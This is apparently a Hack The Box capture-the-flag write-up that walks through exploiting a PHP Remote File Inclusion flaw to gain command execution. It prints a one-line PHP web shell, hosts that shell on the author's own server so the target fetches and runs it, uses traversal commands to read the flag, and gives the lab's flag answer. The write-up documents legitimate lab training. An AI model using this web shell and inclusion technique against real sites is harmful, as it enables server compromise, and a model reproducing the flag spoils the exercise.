







# Hack The Box - Remote File Inclusion (RFI) to RCE | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Inclusion &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.157.59` &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

This lab exercise requires us to use RFI techniques in order to get remote code execution. Based on whether the device is Windows or Linux, and the limitations set by the firewall, we must exploit the RFI vulnerability to get SSRF and RCE.

---

## Assessment Overview



---

## What I Learned

- Confirming the RFI by pointing the `language` parameter at the site's own index page and seeing it render recursively.
- Noting that `http://` was not firewalled, so there was no need to fall back to `ftp://` or SMB.
- Writing a small PHP web shell and serving it from my own machine with `python3 http.server` on port 4444.
- Watching the python log for the `GET /shell.php 200` line to confirm the target fetched my shell.

---

## Fingerprinting the Target

We can start by going to our target IP address. We can see if the web page is running Linux or Windows by forcing an error.



*Figure 1 - The error page shows `Apache/2.4.29 (Ubuntu)` on port 80, so the target is Linux.*

---

## Confirming the RFI

The webpage is Linux and running on port 80, so we can start our attack, but before we do we have to check if the site is RFI vulnerable. So we pointed the site to its own index page.

```
index.php?language=http://127.0.0.1:80/index.php
```



*Figure 2 - The page includes itself, producing a recursive render inside the History section. This confirms RFI, and shows `http://` is not blocked by the firewall, so we do not need `ftp://` or other options.*

---

## Hosting the Web Shell

Our next step is to create a simple shell script and save it to our home directory.

```
<?php system($_GET["cmd"]); ?>
```



*Figure 3 - The PHP web shell `shell.php`.*

Now that we have our script, we can start our own python server to serve it. We will use port 4444:

```
sudo python3 -m http.server 4444
```

We can now go to the address bar and enter our own IP address with the port we specified, followed by `/shell.php` and `&cmd=<command>` to gain RCE.



*Figure 4 - The python server logs `GET /shell.php 200` (the target fetched our shell) and the browser returns `uid=33(www-data)`, confirming RCE.*

And we are able to get RCE.

---

## Capturing the Flag

We were told the flag is in one of the directories under `/`, but manually checking was taking too long, so we switched to Burp Suite (Repeater) to speed things up.



*Figure 5 - Enumerating with `cmd=ls+../../../exercise` reveals `flag.txt` in the `exercise` directory.*

We can now read it directly.

```
cmd=cat+../../../exercise/flag.txt
```



*Figure 6 - Reading `flag.txt` with `cat` returns the flag.*

> **Objective: gain command execution via RFI and find the flag under a directory in /.**

**Answer:** `99a8fc05f033f2fc0cf9a6f9826f83f4`
